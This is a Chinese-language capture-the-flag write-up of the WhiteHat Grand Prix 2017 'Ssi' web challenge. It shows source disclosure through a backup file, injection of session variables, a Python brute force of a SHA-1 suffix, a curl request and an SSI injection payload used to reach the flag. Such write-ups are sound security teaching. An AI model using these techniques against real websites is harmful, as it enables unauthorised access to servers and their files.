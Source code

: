 # WhiteHat Grand Prix 2017 - Notes

## Ssi

打開網站

![image](utQY3o4.png)

點 change color 沒啥變化，網址是 http://ssi.grandprix.whitehatvn.com/index.php

改成 http://ssi.grandprix.whitehatvn.com/index.php~ 可以看到 source code

```php
<?php 
    session_start();
    if(isset($_POST['textColor'])){
        foreach($_REQUEST as $key => $val) { 
            $_SESSION[$key] = $val; 
        }
    }
    if(array_key_exists("textColor", $_SESSION)){
        $style ="color:".$_SESSION['textColor'].";";
    }
    // 
    if(array_key_exists('secret', $_SESSION) and array_key_exists('textColor', $_SESSION)){
        sleep(1);
        $temp = $_SESSION['secret'].$_SESSION['textColor'];
        if(substr(sha1($temp),-3) ==='ab1'){
            //Do sth admin permission
        }
        else{
            $status ="You are logged in as a regular user.";
        }
        
    }
    else{
        $status ="You are logged in as a regular user.";
    }
    
    $title = "<h1 style='$style'>WhiteHat Grand Prix 2017</h1>"; 
?>
```

從 code 可以看到我們要傳一個參數 secret ，其 sha1 後的最後三位是 ab1 

寫個 python 跑一下

```python
import hashlib

for i in range(5000):
	if hashlib.sha1(str(i)).hexdigest()[-3:] == 'ab1':
		print i
		break
```

我得到 1868

我用 curl 去post
```
$ curl -d "secret=18&textColor=68" "http://ssi.grandprix.whitehatvn.com/index.php"
<!DOCTYPE html>
<html>
<head>
        <title>WH-Grandprix2017</title>
        <style type="text/css">
                body{
                        background-color: #f0f0f0;
                }
                .main{
                        padding-left: 500px;
                        padding-top: 50px;
                }
                .form{
                        margin-left: 65px;
                }

                .status{
                        margin-top: 10px;
                        margin-left: 70px;
                }

        </style>
</head>
<body>
<script>alert('Good boy!.Continued to get the flag.')</script><div class="main">
        <div><h1 style='color:68;'>WhiteHat Grand Prix 2017</h1></div>
        <div class="form">
                <form action="index.php" method="POST">
                        <input name="textColor" placeholder="New color">
                        <input type="submit" name="submit" value="Change">
                </form>
        </div>
        <div class="status"></div>


</div>
</body>
</html>

```

改用 hackbar 可以看到換了一個頁面

![image](img/4I2f5Yi.png)

用 F12 看 console 會看到
```
Debug Objects: Flag at directory: value_special/flag.txt
showip.php:1:1
Debug Objects: value_special = md5(filesize(index.php)-namechannelIRC)
showip.php:1:1
Debug Objects: - is a character
showip.php:1:1
```

隨便輸入按確定會看到新頁面

![image](img/nXzGmGY.png)


可以看到網址是 shtml ，然後剛好題目是 ssi ，而剛剛上面的 console 訊息顯示我們必須知道 index.php 大小

把剛剛的輸入改成 ```<!--#fsize file="index.php"-->```

這樣會得到 1.6K

那根據上面的 LOG 訊息，等於是要 md5(1.6K-#whitehatgrandprix2017) = 36789f5cc2688fb98476eea77c6696fe


然後再根據上面的 console 訊息，在網址打 http://ssi.grandprix.whitehatvn.com/36789f5cc2688fb98476eea77c6696fe/flag.txt

就可以得到 flag



